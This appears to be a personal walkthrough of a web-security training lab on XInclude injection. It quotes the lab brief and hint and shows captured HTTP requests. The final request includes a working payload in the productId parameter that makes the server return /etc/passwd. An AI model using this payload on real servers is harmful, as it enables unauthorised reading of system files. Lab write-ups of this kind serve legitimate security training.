

# Exploiting XInclude to retrieve files

```
❓

This lab has a "Check stock" feature that embeds the user input inside a server-side XML document that is subsequently parsed.

Because you don't control the entire XML document you can't define a DTD to launch a classic XXE attack.

To solve the lab, inject an `XInclude` statement to retrieve the contents of the `/etc/passwd` file.
```

```
⚠️

## Hint

<p>
By default, `XInclude` will try to parse the included document as XML. Since `/etc/passwd` isn't valid XML, you will need to add an extra attribute to the `XInclude` directive to change this behavior. 
</p>
```

This lab is a continuation of XXE related attacks except this one focuses on `XInclude` or **XML Inclusions**, a standard defined by the World Wide Web Consortium (W3C) that allows an XML document to include parts of other documents or external resources. This is useful for modularizing and reusing XML content. It works similarly to how `<iframe>` in HTML can embed external content, but it's specifically designed for XML documents.

Let’s begin with our usual testing of the store pages and seeing what kind of data we can capture, I eventually come across a `Check stock` button which is then gives us this request:

```bash
POST /product/stock HTTP/2
Host: 0a83009303ed7ac3803d8f1c00d50063.web-security-academy.net
Cookie: session=82XwsGbFzt2xBTaXZZbNde6EI25nUnYr
Content-Length: 132
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not?A_Brand";v="99", "Chromium";v="130"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: */*
Origin: https://0a83009303ed7ac3803d8f1c00d50063.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a83009303ed7ac3803d8f1c00d50063.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

productId=1&storeId=1

```

We can then tryout this XInclude payload in the request for the `productId`, I tried the payload on the `storeId` and the webpage works as normal but when trying the payload on the productId, we get the contents of the `passwd` file.

```bash
POST /product/stock HTTP/2
Host: 0a83009303ed7ac3803d8f1c00d50063.web-security-academy.net
Cookie: session=82XwsGbFzt2xBTaXZZbNde6EI25nUnYr
Content-Length: 132
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not?A_Brand";v="99", "Chromium";v="130"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: */*
Origin: https://0a83009303ed7ac3803d8f1c00d50063.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a83009303ed7ac3803d8f1c00d50063.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1

```


